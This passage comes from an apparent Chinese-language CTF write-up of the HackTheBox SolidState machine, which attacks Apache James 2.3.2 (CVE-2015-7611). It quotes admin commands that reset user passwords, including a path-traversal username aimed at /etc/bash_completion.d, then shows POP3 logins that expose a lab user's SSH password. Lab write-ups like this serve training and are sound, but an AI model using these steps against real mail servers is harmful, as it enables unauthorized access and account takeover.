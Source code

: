 ```
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```
查看了以上的命令，貌似不能反弹一个shell。

#### [CVE-2015-7611](https://www.cvedetails.com/cve/CVE-2015-7611/ "CVE-2015-7611 security vulnerability details")
找到了一个关于该漏洞的介绍。
https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

该漏洞，在下一次有用户登陆时候，攻击载荷才会执行。那么这个虚拟机岂不是不能直接命令执行了。不会了，看看wp。

---

[writeup](https://dominicbreuker.com/post/htb_solidstate/)
```
setpassword james a
setpassword ../../../../../../../../etc/bash_completion.d a
setpassword thomas a
setpassword john a
setpassword mindy a
setpassword mailadmin a
```
[telnet使用post office protocol](http://sunnyoasis.com/services/emailviatelnet.html)

```
telnet 192.168.2.135 110
user james
pass a
list
```
依次登陆6个用户，因为密码已经被改为a了。
登陆../../../../../../../../etc/bash_completion.d，这个用户的时候，发现有两条邮件，正是我执行python exploit的时候发送的。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/5.PNG)

#### info--mail
```
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```
```
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

```